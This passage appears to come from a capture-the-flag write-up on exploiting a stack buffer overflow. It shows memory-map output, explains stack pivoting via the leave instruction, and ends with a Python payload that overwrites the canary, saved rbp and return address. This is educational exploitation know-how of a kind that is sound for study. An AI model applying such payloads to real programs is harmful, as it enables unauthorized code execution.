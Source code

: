 ```
0x00007ffff7dcf000 0x00007ffff7dd1000 rw-p	/lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dd1000 0x00007ffff7dd5000 rw-p	mapped
0x00007ffff7dd5000 0x00007ffff7dfc000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ff1000 0x00007ffff7ff3000 rw-p	mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r--p	[vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 r-xp	[vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p	mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
```
So the distance between the return address `0x0000555555554bce` and the start of the section `0x0000555555554000` is exactly `0xbce` bytes.

We now have the code section start, as well as the start of our buffer on the stack. The next step that I usually take is to go towards a libc leak and figure out the libc version, but here's where our big problem lies: **we have not space for a ROP chain!** as we cannot override past the return address, what do we do?

### Stack pivoting, create your own stack
Stack pivoting is a fancy name for replacing the program's `rsp` with a pointer to some area in the memory which you control, how does that help us?

Well, since the end of the `check_username` function is a `ret` instruction, what if we could control the stack pointer to point to somewhere inside our buffer? we would be able to control that `ret`!

To do so we need to change the `rsp`, and we have only 1 jump that we can control in order to get it.

### The LEAVE instruction
The [leave](https://c9x.me/x86/html/file_module_x86_id_154.html) instruction which is present at the end of the function restores the old stack pointer of the previous frame. The instruction is "leaving" the current frame.<br>
To do so first: it perform `rsp = rbp`. Restoring the `rsp` to the value from the previous frame.<br>
I like to think of `leave` as the "`ret`" instruction of the stack.

Great, so if we `ret` to the `leave` instruction again (1 instruction above the original `ret`), we are basically "popping" the rbp again effectively changing the `rsp` to the value of our choosing!<br>
All that is required of us is to change the return address to the `leave` instruction. After which the program will execute the `leave` and then the `ret`. The `ret` now will return to a value at the stop of the stack, which **is the custom stack now**

If we send the following payload:
```python
    text_section_base = ret_addr & 0xfffffffffffff000
    text_section_leave_ret = text_section_base + 0xc5c
    buffer_addr       = old_rbp - 0x480

    # After leaking the necessary values,
    # We create a new payload
    payload = "davide" + "AA"
    payload += p64(0xdeadbeefdeadbeef ^ Ds)

    # Pad to the end of buffer
    payload += "B" * (1032 - len(payload))

    payload += p64(canary ^ Ds)
    payload += p64(buffer_addr ^ Ds)
    payload += p64(text_section_leave_ret ^ Ds)

    send_payload(payload)
```